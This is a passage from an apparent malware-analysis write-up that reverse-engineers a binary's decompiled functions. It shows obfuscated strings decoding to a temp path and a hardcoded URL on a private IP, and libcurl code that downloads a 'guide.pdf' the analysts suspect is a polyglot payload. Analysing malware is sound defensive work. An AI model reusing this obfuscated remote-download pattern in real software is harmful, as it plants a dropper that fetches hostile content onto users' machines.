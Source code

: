 This function points to two others FUN_00101758 and FUN_00101a07.

#### FUN_00101758
At `00101758` the function decodes two strings,using the encrypt function:
-  From `"m6/2m%7+&\'l2&$` to `/tmp/guide.pdf`
-  From `*662xmms{plstzlstrlsvqm%7+&\'l2&$` to `http://192.168.160.143/guide.pdf`

After decoding the strings it runs the following code.
```c
  local_10 = curl_easy_init();
  if (local_10 != 0) {
    local_18 = fopen(local_a8,"wb");
    local_1c = 0x2712;
    curl_easy_setopt(local_10,0x2712,local_68);
    local_20 = 0x4e2b;
    curl_easy_setopt(local_10,0x4e2b,0);
    local_24 = 0x2711;
    curl_easy_setopt(local_10,0x2711,local_18);
    local_28 = curl_easy_perform(local_10);
    curl_easy_cleanup(local_10);
    if (local_28 != 0) {
      unlink(local_a8);
    }
    fclose(local_18);
  }
```

After a quick search we've found this example at [curl](https://curl.se/libcurl/c/curl_easy_init.html) that looks like the code shown above.

![](img/ExampleCurl.png)

With the all evidence above we can see that this code is doing curl of a PDF file. \
We curled the url of the pdf to see what it was and got the pdf **"500 comandos de Linux explicados"**. 
Initially, we considered the possibility that it might be a **Polyglot**. To investigate we started checking the hash and size of the one curled and with a similar pdf available online. \
Upon the comparison shown below, we concluded they didn't match. The size disparity also suggests that the pdf contains extra information, suporting our speculation that it is a **polyglot**.
